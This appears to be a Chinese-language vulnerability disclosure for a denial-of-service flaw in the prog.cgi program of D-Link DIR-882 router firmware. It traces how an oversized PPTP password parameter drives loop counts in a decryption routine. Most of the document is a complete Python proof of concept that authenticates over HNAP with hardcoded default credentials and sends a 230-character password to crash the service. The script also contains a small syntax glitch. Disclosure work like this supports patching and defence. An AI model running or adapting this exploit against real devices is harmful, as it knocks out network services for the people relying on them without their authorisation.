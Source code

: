 # Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version
![](pic/version.png "")
图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。

![](pic/web.png "")

在prog.cgi中，我们可以在sub_46C6CC设置PPTP功能的代码中找到细节，程序将/SetWan3Settings/Password参数获取的内容传递给V37.

![](pic/code1.png "")

V37参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。

![](pic/code2.png "")

在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。

![](pic/code3.png "")

所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests
IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):.
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan3Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicPPTP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan3Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan3Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan3Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:

![](pic/a1.png "")

运行后：

![](pic/a2.png "")

## CVE-ID
unsigned
